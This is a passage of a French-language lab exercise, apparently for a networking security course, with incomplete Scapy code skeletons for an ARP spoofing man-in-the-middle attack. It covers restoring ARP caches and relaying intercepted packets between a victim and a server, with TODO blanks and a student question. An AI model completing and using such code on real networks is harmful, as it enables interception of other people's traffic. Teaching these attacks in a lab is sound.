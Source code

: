 #### 3.3 : Restauration des tables ARP légitimes (lignes 94-118)

```python
def restore_arp(victim_mac: str, server_mac: str) -> None:
    """
    ÉTAPE 3 : Restauration des tables ARP légitimes.

    Réémet des annonces ARP légitimes pour rendre les caches cohérents avant de quitter.

    TODO : Compléter les adresses MAC sources (src et hwsrc) avec les VRAIES MACs.
    """
    # TODO: Compléter avec les vraies MACs
    sendp(
        Ether(dst=victim_mac, src=REAL_SERVER_MAC)  # TODO: quelle MAC source ?
        / ARP(op=2, pdst=VICTIM_IP, hwdst=victim_mac, psrc=SERVER_IP, hwsrc=REAL_SERVER_MAC),  # TODO: quelle MAC ?
        count=5,
        inter=0.2,
        verbose=0,
        iface=INTERFACE,
    )
    sendp(
        Ether(dst=server_mac, src=REAL_VICTIM_MAC)  # TODO: quelle MAC source ?
        / ARP(op=2, pdst=SERVER_IP, hwdst=server_mac, psrc=VICTIM_IP, hwsrc=REAL_VICTIM_MAC),  # TODO: quelle MAC ?
        count=5,
        inter=0.2,
        verbose=0,
        iface=INTERFACE,
    )
```

#### 3.4 : Interception et transfert des paquets (lignes 143-164)

```python
# TODO: Compléter les conditions pour détecter la direction
if packet[IP].src == VICTIM_IP and packet[IP].dst == DESTINATION_IP:  # TODO: quelle IP ?
    direction = "victim->server"
    dst_mac = DESTINATION_MAC  # TODO: vers quelle MAC envoyer ?
elif packet[IP].src == SOURCE_IP and packet[IP].dst == VICTIM_IP:  # TODO: quelle IP ?
    direction = "server->victim"
    dst_mac = DESTINATION_MAC  # TODO: vers quelle MAC envoyer ?

# TODO: Reconstruire la trame avec la bonne MAC de destination
new_packet = Ether(src=attacker_mac, dst=DST_MAC) / packet[IP]  # TODO: utiliser dst_mac
```

**Question** : Comment l'attaquant détermine-t-il si un paquet va de la victime vers le serveur ou l'inverse ? Pourquoi doit-il modifier l'en-tête Ethernet ?

#### 3.5 : Capture des paquets Scapy
